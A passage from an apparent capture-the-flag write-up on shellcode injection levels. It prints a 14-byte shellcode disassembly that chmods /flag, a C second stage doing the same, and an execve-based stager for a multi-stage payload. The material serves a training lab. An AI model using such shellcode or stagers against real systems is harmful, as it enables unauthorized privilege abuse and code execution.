 > Write and execute shellcode to read the flag, but all file descriptors (including stdin, stderr and stdout!) are closed.

* Since we are not outputting the flag to `stdout`, this is not really a problem for us.
* We can go ahead and use the code from [level 1](shellcode-injection.md#level-1).



## level 8

> Write and execute shellcode to read the flag, but you only get 18 bytes.

* We could just use the code from [level 4](shellcode-injection.md#level-4), as it is 14 bytes long.

```
~$ objdump -d shellcode -M intel

0000000000001000 <_start>:
    1000:       68 66 6c 61 67          push   0x67616c66
    1005:       54                      push   rsp
    1006:       5f                      pop    rdi
    1007:       40 b6 04                mov    sil,0x4
    100a:       b0 5a                   mov    al,0x5a
    100c:       0f 05                   syscall 
```

* As we are not writing anything in this code, we can just ignore the fact that first 4096 bytes are non-writeable.
* However I think this is a great opportunity to get familiar with [multi-stage shellcode](https://compilepeace.medium.com/shellcoding-0x3-dropping-multi-stage-payload-fdd635fcbf70). A multi-stage shellcode uses multiple scripts that execute the next script.
* We can use two shellcode scripts for this level. The size restriction will only be enforced on the first script.
* We will begin writing the second stage first.

```c
// catflag.c

void main()
{
    chmod("/flag", 4);
}
```

* Now let's compile this file using the following command:

```
gcc catflag.c -o \;
```

* Notice the output is a file named `;` whose value is `0x3b`.
* The first shellcode which is also know an dropper payload or stager, will use `execve` and execute the second stage.

```armasm
# Execve syscall
mov al, 0x3b
push rax
mov rdi, rsp 
xor rsi, rsi
xor rdx, rdx
syscall
```

